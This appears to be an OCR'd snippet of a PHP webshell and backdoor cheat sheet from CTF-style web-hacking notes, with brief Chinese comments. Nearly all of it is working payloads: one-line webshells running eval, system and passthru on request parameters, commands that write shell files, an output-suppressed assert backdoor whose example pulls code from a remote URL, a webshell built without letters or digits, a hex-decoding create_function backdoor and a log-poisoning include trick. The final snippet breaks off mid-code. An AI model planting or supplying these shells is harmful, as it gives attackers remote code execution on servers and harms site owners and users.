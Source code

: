 ```php

echo "{${phpinfo()}}";

echo "${system(ls)}";

echo Y2F0IGZsYWc= | base64 -d | sh
// Y2F0IGZsYWc=   =>  cat  flag

echo -e "<?php passthru(\$_POST[1])?>;\r<?php echo 'A PHP Test ';" > shell.php
// cat shell.php
// <?php echo 'A PHP Test ';" ?>

echo ^<?php eval^($_POST['a']^); ?^> > a.php
// Windows echo導出一句話

<?php fwrite(fopen("gggg.php","w"),"<?php system(\$_GET['a']);");

<?php
header('HTTP/1.1 404');
ob_start();
phpinfo();
ob_end_clean();
?>

<?php 
// 無回顯後門  
// e.g. ?pass=file_get_contents('http://kaibro.tw/test')
ob_start('assert');
echo $_REQUEST['pass'];
ob_end_flush();
?>

<?=
// 沒有英數字的webshell
$💩 = '[[[[@@' ^ '("(/%-';
$💩(('@@['^'#!/')." /????");


A=fl;B=ag;cat $A$B

<?php
if(@$_REQUEST["cc"]){
   $c=@$_REQUEST["cc"];
   $c=str_replace(array("\n","\t","\r"),"",$c);
   $buf="";for($i=0;$i<strlen($c);$i+=2)
   $buf.=urldecode("%".substr($c,$i,2));
   $FiLi=Create_Function("",$buf);$FiLi();exit;
}
?>

<?php
ini_set('log_errors', 'On'); 
ini_set('error_log', 'test.log'); 

error_log($_GET['a']);
include 'test.log';
?>

#利用<?php phpinfo(); ?> urlencode %3C%3F%70%68%70%20%70%68%70%69%6E%66%6F%28%29%3B%20%3F%3E 去掉百分号3C3F70687020706870696E666F28293B203F3E
#在index.php上使用hackbar 使用post，z1=/robots.php&z2=3C3F70687020706870696E666F28293B203F3E
<?php
$f = realpath(dirname(__FILE__) . "/../") . $_POST["z1"];
```